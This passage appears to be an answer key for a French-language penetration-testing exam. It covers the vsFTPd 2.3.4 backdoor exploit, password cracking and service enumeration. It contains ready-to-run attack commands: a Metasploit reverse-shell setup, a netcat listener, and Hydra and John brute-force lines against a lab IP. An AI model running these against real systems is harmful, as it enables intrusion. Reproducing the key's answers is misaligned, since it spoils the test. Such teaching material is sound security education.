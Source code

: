    set LPORT 4444
    exploit
    ```
  - **Justification:** This exploits a backdoor in vsFTPd 2.3.4, opening a reverse shell. Start a listener with `nc -lvnp 4444` on the attacker machine.

#### 7. Expliquer les différentes approches de cracking de mots de passes. Citer quelques outils.
- **Answer:**
  - **Brute Force:** Tries all possible combinations (e.g., Hydra, John).
    - **Example:** `hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.10.11 ssh`
  - **Dictionary Attack:** Uses a pre-defined wordlist (e.g., John, Hashcat).
    - **Example:** `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
  - **Rainbow Table Attack:** Uses precomputed hash tables for faster cracking (e.g., RainbowCrack).
  - **Justification:** These methods vary in speed and efficiency; brute force is exhaustive, dictionary attacks are faster with a good wordlist, and rainbow tables optimize for precomputed hashes.

---

### Page 2-3: III-Cochez les bonnes réponses

#### 13. Quel outil est utilisé pour énumérer les partages SMB ?
- **Options:** A. Dirb, B. Enum4linux, C. Sqlmap, D. Gobuster
- **Correct Answer:** B. Enum4linux
- **Justification:** Enum4linux is specifically designed to enumerate SMB shares, users, and groups on Windows/Linux systems.

#### 14. Pour énumérer les utilisateurs d’un serveur FTP, on peut :
- **Options:** A. Faire un scan SYN anonyme, B. Tenter une connexion anonyme, C. Exploiter une faille HTTP, D. Sniffer un réseau
- **Correct Answer:** B. Tenter une connexion anonyme
- **Justification:** Attempting an anonymous FTP login (e.g., `ftp 192.168.10.11`, username: `anonymous`) can reveal user-related information or vulnerabilities.

#### 15. L’énumération LDAP se fait généralement sur le port :
- **Options:** A. 88, B. 21, C. 389, D. 53
- **Correct Answer:** C. 389
- **Justification:** Port 389 is the default for LDAP (Lightweight Directory Access Protocol) services.

#### 16. Quel outil peut être utilisé pour interroger un serveur SNMP ?
- **Options:** A. Nikto, B. SNMPwalk, C. Netcat, D. Metasploit
- **Correct Answer:** B. SNMPwalk
- **Justification:** SNMPwalk is used to query SNMP (Simple Network Management Protocol) services, typically on port 161.

#### 17. Le protocole utilisé pour l’énumération des services web est :
- **Options:** DNS, HTTP, FTP, POP3
- **Correct Answer:** HTTP
- **Justification:** HTTP is the primary protocol for web services, used to enumerate web applications and directories.
